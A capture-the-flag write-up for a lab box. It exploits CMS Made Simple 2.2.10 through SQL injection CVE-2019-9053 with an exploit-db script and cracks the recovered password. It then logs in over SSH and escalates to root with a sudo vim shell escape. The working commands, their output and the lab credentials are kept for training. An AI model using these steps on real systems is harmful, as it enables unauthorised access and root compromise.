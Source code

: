 visit < target-ip>/simple

<img width="755" alt="cms-made-simple" src="https://user-images.githubusercontent.com/95465072/206485793-1784f900-dc48-43ad-a668-8f3a40fe36a0.png">

 
 

## [ CMS Made Simple - CVE-2019-9053](https://sckull.github.io/posts/simplectfthm/#cms-made-simple---cve-2019-9053)

[cms made simple 2.2.10 SQL Injection](https://www.exploit-db.com/exploits/46635)

> Download the exploit code from the above link
> **note**: There might be some errors in the exploit code fix it and then run the script 

&nbsp;

[Download best-1050.txt ](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/best1050.txt)
&nbsp;

```sh
python3 46635.py -u http://<targetip>/simple --crack -w /usr/share/wordlists/best_1050.txt
```

### Results:
```
┌──(local_host㉿kali)-[~/Desktop/CTF/simple_ctf]
└─$ python3 46635.py -u http://10.10.54.91/simple --crack -w /usr/share/wordlists/best_1050.txt

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```
> **note**: It will take some time!!
> you can also exploit using msfconsole 
> ```searchsploit -m 46635```

## Login using SSH

```sh
ssh mitch@<target-ip> -p 2222
```
> as we know password is **secret**

## Privilege Escalation

> By looking into the directories we can see that we can leverage the **vim** 
> The great option to do this is  click here to get exploits [gtfobins](https://gtfobins.github.io/gtfobins/vim/#sudo)

```sh
sudo vim -c ':!/bin/sh'
```
> copy any one code and execute in mitch's machine!
> navigate to root directory 

